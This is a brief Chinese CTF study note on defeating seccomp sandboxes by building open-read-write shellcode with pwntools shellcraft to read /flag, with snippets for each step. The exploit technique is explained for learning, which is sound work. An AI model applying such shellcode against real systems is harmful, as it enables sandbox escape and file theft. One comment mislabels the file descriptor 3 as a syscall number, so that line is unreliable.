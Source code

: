 ## 保护原理
我们的沙盒保护，就是指在我们的原来的程序中，添加了一个沙盒函数。
![[Pasted image 20240123162639.png]]

再添加了这个函数后，我们如果还是使用我们原来的 `ret2shellcode` 的方法，我们的程序会直接坏死。

于是，我们的基本思路就是构造出我们的一个 orw，所谓的 orw，就是 $\text{open read write}$ 的缩写，通过我们对于一个文件的打开，读和写，我们就可以直接获得我们的文件

## 检查工具
```bash
seccomp-tools dump ./orw 
```
## 操作方法：
第一步：找到一个空间来存储我们读入的数据。这里，我们应该在我们的 bss 段中找我们的对应地址是多少。
```cpp
buf=0x4040D0
```

第二步，通过我们的工具构造我们的打开函数
```cpp
sc=shellcraft.open('/flag')
```

第三步：通过我们的工具构造我们的读文件函数
```python
sc+=shellcraft.read(3,buf,0x30);# 这里的3表示我们的系统调用号
```

第四步：通过我们的工具构造我们的写文件函数：
```python
sc+=shellcraft.write(1,buf,0x30)
```

或者，我们可以结合上面的几种方法构造一个最简单的方法：
```cpp
sc=shellcraft.cat('/flag')
```